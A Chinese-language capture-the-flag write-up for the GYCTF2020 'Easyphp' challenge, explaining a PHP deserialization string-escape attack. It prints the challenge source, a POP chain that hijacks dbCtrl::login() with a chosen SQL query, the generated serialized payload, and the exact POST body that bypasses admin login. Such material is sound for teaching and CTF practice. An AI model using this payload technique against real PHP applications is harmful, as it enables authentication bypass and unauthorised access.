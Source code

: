 # \[GYCTF2020]Easyphp

## \[GYCTF2020]Easyphp

## 考点

* 反序列化逃逸

## wp

www.zip给了源码

大概的逻辑就是index.php判断有没有登录，登录就转到update.php，没有登录就转到登录页面

在登录页面获取参数，并做黑名单过滤，然后执行`User::login()`

```
preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['***'])
```

在`User::login()`中连接数据库，然后用预编译的方式执行sql语句获取username和password，这里基本上封死了sql注入。如果登录成功就让`$_SESSION['login']`为1，然后跳转到update.php

```php
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');

if($this->id)        $_SESSION['login']=1;
```

再看update.php，先判断`$_SESSION['login']`是否为1，不为1就\*\*`echo`**而不是**`die`\*\*。那后面的代码还可以执行啊。

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

然后到`User::update()`，先反序列化`Info`类再实例化`UpdateHelper`

```php
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
```

```php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
```

这里获取flag的条件是`$_SESSION['login']`为1

```php
if($_SESSION['login']===1){
  require_once("flag.php");
  echo $flag;
}
```

而`$_SESSION['login']`为1要求成功登录，即token为admin或者账号密码正确

```php
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');
if($this->id){
$_SESSION['id']=$this->id;
$_SESSION['login']=1;}
class dbCtrl
{
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
}
```

从`User::update()`入手，它的第一行`$Info=unserialize($this->getNewinfo());`如下，一个典型的逃逸

```php
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
unserialize(safe(serialize(new Info($age,$nickname))));
```

可以利用逃逸，插入UpdateHelper类，触发它的`__destruct()`函数，再去触发User类的`__toString()`，最后触发Info类的`__call()`，让它执行`dbCtrl::login()`，这样就能够控制sql语句，实现登录了

pop链

```php
<?php
class dbCtrl{}
$d = new dbCtrl();
$d->name = "admin";// admin这个用户名是存在的，可以试出来
$d->password = "1";// 与select语句中的密码保持一致，绕过登录

class Info{}
$c = new Info();
$c->CtrlCase = $d;

class User{}
$b = new User();
$b->nickname = $c;
$b->age = 'select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';

class UpdateHelper{}
$a = new UpdateHelper();
$a->sql = $b;

echo serialize($a);
// O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}
```

逃逸插入pop链，不断调整`*`或者`union`的数量，让插入pop链的结果符合反序列化条件

```php
<?php
class Info{}
$b = new Info();
$b->age = "123";
$b->nickname = '***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}';


$s = serialize($b);
echo $s."<br>";

function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
echo safe($s)."<br>";
/*
O:4:"Info":2:{s:3:"age";s:3:"123";s:8:"nickname";s:324:"***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}";}
O:4:"Info":2:{s:3:"age";s:3:"123";s:8:"nickname";s:324:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}";}
*/
```

在update.php中POST

```
age=123&nickname=***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}
```

![](<../../.gitbook/assets/image (26) (1) (1) (1).png>)

这会让`dbCtrl::login()`成功执行，把token赋值为admin。

```php
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
```

再用admin加上任意密码登录即可

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)
